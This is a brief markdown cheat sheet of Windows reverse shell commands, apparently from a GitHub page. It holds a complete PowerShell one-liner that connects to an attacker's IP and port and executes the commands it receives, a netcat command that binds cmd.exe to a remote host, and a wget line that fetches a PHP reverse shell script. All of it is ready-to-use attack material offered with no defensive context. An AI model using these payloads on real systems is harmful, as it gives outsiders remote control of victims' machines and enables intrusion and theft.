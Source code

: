 # Windows reverse shells

  **Powershell**
  
      $client = New-Object System.Net.Sockets.TCPClient("<IP>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 

**CMD netcat**

    nc 192.168.20.20 5555 -e cmd.exe


## PHP reverse windows shell

    wget https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php
